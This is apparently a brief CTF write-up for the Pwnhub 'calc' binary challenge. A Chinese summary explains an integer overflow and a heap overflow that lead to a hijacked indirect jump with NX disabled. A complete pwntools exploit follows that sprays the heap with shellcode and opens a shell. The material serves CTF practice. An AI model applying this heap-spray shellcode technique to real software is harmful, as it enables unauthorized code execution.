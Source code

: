 ```yaml
---
title: Pwnhub 故事的开始 calc
date: 2020-05-19 00:00:00
categories:
- CTF/Pwn
tags: 堆喷
---
```


> 漏洞点为一个整数溢出和一个堆溢出，其中整数溢出可以转化为另一个堆溢出。本题利用方法为利用原生的堆溢出漏洞，可以覆盖一个存在间接跳转的二级指针，因为没有开启NX，所以结合堆喷即可getshell。虽然堆喷解法的exp很简单，但本题的逆向却是是很耗时的。

- [题目列表 / Calculator](https://pwnhub.cn/questiondetail?id=1)
- [pwnhub.cn 故事的开始 calc Writeup](https://atum.li/2016/12/05/calc/)

```python
from pwn import *
context(arch="i386", os="linux")
elf = ELF("./calc")
io = process(elf.path)

payload = '"'+asm(shellcraft.sh()).rjust(200,"\x0c")+'" * 500'

for i in range(6000):
   print i
   io.sendlineafter("> ",payload)

io.sendline("1 "*50)
io.recvuntil(">")
io.interactive()
```